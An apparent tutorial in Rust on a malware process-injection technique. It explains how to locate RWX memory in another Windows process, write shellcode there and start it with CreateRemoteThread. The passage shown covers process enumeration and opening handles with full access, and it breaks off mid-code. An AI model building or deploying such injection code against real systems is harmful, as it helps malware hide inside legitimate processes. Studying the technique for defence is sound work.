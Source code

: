 A technique malware authors use to execute their code in the context of another process is to inject their shellcode into an `RWX` memory region of the target process and spawn a thread impersonating that process. In this post, we will see how to do that.

`RWX` stands for Read-Write-Execute. In this scenario, we are looking for a memory region in a running process with all three permissions: Read, Write, and Execute.

The basic idea is to enumerate the running processes and find an `RWX` memory region in the target process.
When we find an `RWX` memory region, we write the shellcode into it using [`WriteProcessMemory`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) and create a remote thread in the target process that starts executing the shellcode using [`CreateRemoteThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

## Finding the RWX Memory Region

```rust
let mut processes = [0u32; 1024];
let mut bytes_returned = 0;

if EnumProcesses(
    processes.as_mut_ptr(),
    std::mem::size_of_val(&processes) as u32,
    &mut bytes_returned,
) == 0
{
    return Err("Failed to enumerate processes".into());
}
```

The [`EnumProcesses`](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumprocesses) function is used to enumerate the running processes. It returns an array of process IDs in the `processes` array and populates the `bytes_returned` variable with the number of bytes written to the `processes` array.

```rust
let num_processes = bytes_returned / 4; // 4 bytes per process ID (u32)

for &process_id in &processes[..num_processes as usize] {
    if process_id == 0 {
        continue;
    } // System Idle Process, skip it

    // rest of the enumeration code
}
```

We iterate over the process IDs and skip the System Idle Process (PID 0).

```rust
let h_process = OpenProcess(
    PROCESS_ALL_ACCESS,  // All possible access rights for a process object
    FALSE, // Don't inherit the handle
    process_id
);

if h_process.is_null() {
    println!("[-] Couldn't open process {}", process_id);
    continue; // Skip to the next process
}

let mut process_name = [0u16; 260];
let name_len = GetModuleBaseNameW(
    h_process,
    ptr::null_mut(),
    process_name.as_mut_ptr(),
```